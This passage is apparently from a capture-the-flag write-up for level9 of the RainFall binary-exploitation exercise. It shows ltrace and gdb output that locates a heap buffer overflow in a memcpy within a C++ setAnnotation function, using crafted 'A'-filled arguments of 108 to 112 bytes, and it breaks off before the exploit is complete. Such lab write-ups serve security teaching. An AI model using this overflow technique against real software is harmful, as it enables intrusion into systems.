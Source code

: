 We are going through the steps to exploit the binary but we are not going to last on how the program works. For more
comprehensive insights about the binary please see the `source` file.

We notified before that 109 bytes-long argument made the program segfault. Using `ltrace` we have some hints how it
happens:

```console
level9@RainFall:~$ ltrace ./level9 `python -c 'print "A" * 108'`
__libc_start_main(0x80485f4, 2, 0xbffff764, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                    = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                 = 0
_Znwj(108, 0xbffff764, 0xbffff770, 0xb7d79e55, 0xb7fed280)                                            = 0x804a008
_Znwj(108, 5, 0xbffff770, 0xb7d79e55, 0xb7fed280)                                                     = 0x804a078
strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                         = 108
memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 108)                                        = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 0x41414147, 0x804a078, 0x8048738, 0x804a00c)                       = 0xb7fce4a0
+++ exited (status 71) +++
level9@RainFall:~$ ltrace ./level9 `python -c 'print "A" * 109'`
__libc_start_main(0x80485f4, 2, 0xbffff764, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330)                    = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)                                 = 0
_Znwj(108, 0xbffff764, 0xbffff770, 0xb7d79e55, 0xb7fed280)                                            = 0x804a008
_Znwj(108, 5, 0xbffff770, 0xb7d79e55, 0xb7fed280)                                                     = 0x804a078
strlen("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                         = 109
memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 109)                                        = 0x0804a00c
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

So far:
- we notice the `dst` address is `0x0804a00c`,
- we know it segfaults after the 108th bytes.

We will use a 112 bytes long argument, in `gdb`:

```gdb
gdb-peda$ run $(python -c 'print "A" * 112')
```

Thus, we have a `memcpy` just before segfaulting. In fact it copies our argument at the address `0x0804a00c`. Using
`gdb` we can understand how it works: `memcpy` is called inside the function `_ZN1N13setAnnotationEPc`. Since it is the
last call `eax` returns the pointer to the `memcpy`'s `dst` buffer (which is `0x804a00c`). After, we have the following
sequence:
